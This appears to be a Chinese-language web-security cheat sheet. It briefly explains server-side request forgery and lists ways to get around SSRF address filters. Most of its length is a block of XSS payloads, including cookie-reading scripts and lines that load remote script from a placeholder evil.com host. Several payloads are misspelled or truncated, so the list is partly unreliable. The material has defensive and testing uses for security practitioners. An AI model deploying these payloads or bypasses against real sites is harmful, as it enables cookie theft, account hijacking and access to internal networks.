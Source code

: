## SSRF&XSS
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等

        使用@：http://A.com@10.10.10.10 = 10.10.10.10
        IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
        使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
        端口绕过：ip后面加一个端口
        xip.io：10.0.0.1.xip.io = 10.0.0.1
                www.10.0.0.1.xip.io = 10.0.0.1
                mysite.10.0.0.1.xip.io = 10.0.0.1
                foo.bar.10.0.0.1.xip.io = 10.0.0.1
        通过js跳转

# XSS

## 常见payload

```js
<script>alert(1);</script>
<img src=0 onerror=alert(1)>
"><script src=http://www.xxx.com/1.js></script>"
"></iframe><script>alert(123)></script>
<body onLoad="while(true) alert("XSS"),">
"></tile><script>alert(1111)</script>
</textarea>'"><script>alert(document.cookie)</script>
'""><script language="JavaScript"> alert("X \nS \nS"),</script>
</script></script><<<<script><>>>><<<script>alert(123)</script>
<html><noalert><noscript>(123)</noscript><script>(123)</script>
<INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
'></select><script>alert(123)</script>
'>'><script src='http://www.evil.com/XSS.js'></script>
}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
<SCRIPT>document.write("XSS");</SCRIPT>
a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a+b+c+d);
='><script>alert("XSS")</script>
<sctipt+src=">"+src="http://www.evil.com/XSS.js?68,69"></script>
<body backgroud=jabascript:'"><script>alert(navigator.userAgent)</sctipt>></body>
">XaDoS/><script>alert(document.cookie)</script><script src="http://www.site.com/X
Data:text/html;charset=utf-7;base64.Ij481.3RpdGod[jxzY3JpcHQ+YWxlcnQoMIMzNy
"<marquee><img src=k.png onerror=alert(/XSS/)/>
"<marquee><img src=k onerror=alert(/XSS/)>
'"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
</div><script>alert(123)</script>
"><iframe src="javascript:alert(document.cookie)'><iframe>
<div style="backgroud:url("javascript:alert(I)')">
<img src="java\nascript:alert(\"XSS\")">
>"><img src="javascript:alert("XSS")">
"style="background:url(javascript:alert(/XSS/))"
>"><script>alert(/XSS/)</script>
"></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html